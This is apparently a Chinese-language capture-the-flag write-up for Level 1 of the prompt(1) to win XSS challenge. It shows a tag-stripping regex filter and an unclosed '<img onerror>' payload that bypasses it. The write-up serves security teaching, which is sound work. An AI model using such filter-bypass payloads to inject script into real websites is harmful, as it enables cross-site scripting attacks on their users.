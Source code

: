 ## [[prompt(1) to win](http://prompt.ml)] [[Level 1 - tags stripping](http://prompt.ml/1)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3623/)]

------

## 题目

```javascript
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

------

## 解题报告

注意观察正则表达式，它会把所有匹配 `<tag>` 或 `</tag>` 的标签全部剥离。

那么不构造完整的 tag 、仅通过属性注入就可以绕过了，如这样的 payload ：

`<img src=0 onerror=prompt(1) ` （**注意末尾有一个空格**）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2001%20-%20tags%20stripping/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
